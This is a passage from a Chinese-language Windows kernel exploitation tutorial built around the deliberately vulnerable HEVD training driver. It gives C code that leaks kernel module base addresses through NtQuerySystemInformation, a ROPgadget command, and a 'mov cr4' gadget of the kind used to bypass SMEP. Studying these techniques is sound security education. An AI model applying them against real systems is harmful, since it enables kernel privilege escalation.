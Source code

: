 ```plain
        return 0;
    }

    //starting quering
    NTSTATUS status = NtQuerySystemInformation(SystemModuleInformation, pModuleInfo, len, &len);

    if (status != (NTSTATUS)0x0) {
        printf("[!] [ulGetKernelBase] NtQuerySystemInformation failed with error code 0x%X\n", status);
        return 0;
    }
    for (unsigned int i = 0; i < pModuleInfo->ModulesCount; i++) {
        kernelImage = (PCHAR)pModuleInfo->Modules[i].Name;
        if (strstr(kernelImage, ModuleName)) {
            kernelImageBase = pModuleInfo->Modules[i].ImageBaseAddress;
            printf("[*] [ulGetKernelBase]  Mod name %s ", kernelImage);
#ifdef _WIN64
            printf(" Base Addr 0x%llx\r\n", kernelImageBase);
#else
            printf(" Base Addr 0x%X\r\n", kernelImageBase);
#endif
            return (unsigned long long)kernelImageBase;
        }
    }
    return 0;
}
```

### B. 找到对应汇编

可以使用 CTF 常用工具`ROPGadget`，他支持`PE`格式（因为用的 Capstone 反汇编引擎）

```plain
ROPgadget --binary ./HEVD.sys --only "pop|ret"
```

试试`ntoskrl.exe`的

[![](assets/1706090578-06595586e3a2621883c7e451d115b742.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131934-d414ea16-b8e5-1.png)

```plain
0x000000014039eb47 : mov cr4, rcx ; ret
```

得到基地址是`0x39eb47`，另外一个 gadget 同理
